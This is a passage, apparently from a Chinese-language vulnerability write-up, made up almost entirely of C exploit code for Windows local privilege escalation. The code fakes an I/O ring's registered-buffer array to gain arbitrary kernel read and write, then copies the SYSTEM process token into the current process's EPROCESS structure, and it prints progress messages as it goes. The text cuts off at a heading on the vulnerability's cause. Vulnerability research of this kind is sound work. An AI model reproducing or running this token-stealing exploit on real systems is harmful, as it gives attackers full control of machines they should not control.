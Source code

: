 ```
 
    ret = getobjptr(&ullTargEPROCaddr, GetCurrentProcessId(), hProc);
 
    if (0 != ret)
    {
        goto done;
    }
 
    printf("[+} Target process EPROC address: %llx\n", ullTargEPROCaddr);
 
    pFakeRegBuffers = VirtualAlloc(ullFakeRegBufferAddr, sizeof(ULONG64) * ulFakeRegBufferCnt, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
 
    if (pFakeRegBuffers != (PVOID)ullFakeRegBufferAddr)
    {
        ret = GetLastError();
        goto done;
    }
 
    memset(pFakeRegBuffers, 0, sizeof(ULONG64) * ulFakeRegBufferCnt);
 
    phIoRing = *(_HIORING**)&hIoRing;
    phIoRing->RegBufferArray = pFakeRegBuffers;
    phIoRing->BufferArraySize = ulFakeRegBufferCnt;
 
    ret = ioring_read(pFakeRegBuffers, ullSystemEPROCaddr + EPROC_TOKEN_OFFSET, &ullSysToken, sizeof(ULONG64));
 
    if (0 != ret)
    {
        goto done;
    }
 
    printf("[+] System token is at: %llx\n", ullSysToken);
 
    ret = ioring_write(pFakeRegBuffers, ullTargEPROCaddr + EPROC_TOKEN_OFFSET, &ullSysToken, sizeof(ULONG64));
 
    if (0 != ret)
    {
        goto done;
    }
 
    ioring_write(pFakeRegBuffers, &pIoRing->RegBuffersCount, &null, 0x10);
 
    ret = 0;
 
done:
    return ret;
}
```  
###   
### 漏洞成因  
  